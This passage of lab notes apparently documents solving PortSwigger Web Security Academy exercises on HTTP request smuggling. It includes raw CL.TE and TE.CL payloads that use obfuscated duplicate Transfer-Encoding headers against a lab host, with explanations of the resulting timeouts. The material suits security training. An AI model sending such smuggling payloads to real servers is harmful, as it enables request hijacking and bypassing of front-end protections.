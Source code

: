 Depending on whether the front-end or back-end uses the `Transfer-Encoding`, it can become either CL.TE or TE.CL

#### Solution to the lab:

First tested TE.CL, and with double `Transfer-Encoding` header got a proxy timeout. This could be because one of the servers is waiting for more bytes, but not getting them.

```http
POST /post/comment HTTP/1.1
Host: 0a2d00fc03652cc4c04d3dae004e00af.web-security-academy.net
Content-Length: 4
Transfer-Encoding: x
Transfer-Encoding: chunked

61
GPOST /post/comment HTTP/1.1
Host: 0a2d00fc03652cc4c04d3dae004e00af.web-security-academy.net

0


```

If the front-end uses `Content-Length: 4` it only sends `61\r` to the back-end. If the back-end then uses `Transfer-Encoding` it would see the `61` and wait for 97 more bytes, which it is not getting from the proxy causing a timeout. This would mean it is a CL.TE type instead. Trying the same with a CL.TE payload confirms this by solving the lab:

```http
POST /post/comment HTTP/1.1
Host: 0a2d00fc03652cc4c04d3dae004e00af.web-security-academy.net
Content-Length: 6
Transfer-Encoding: x
Transfer-Encoding: chunked

0

G
```

## Confirming Request Smuggling

{% embed url="https://portswigger.net/web-security/request-smuggling/finding" %}
Portswigger **explaining** how to config this attack
{% endembed %}

### CL.TE

{% embed url="https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses" %}
Portswigger **lab** for practicing CL.TE and confirming it seeing a different response
{% endembed %}
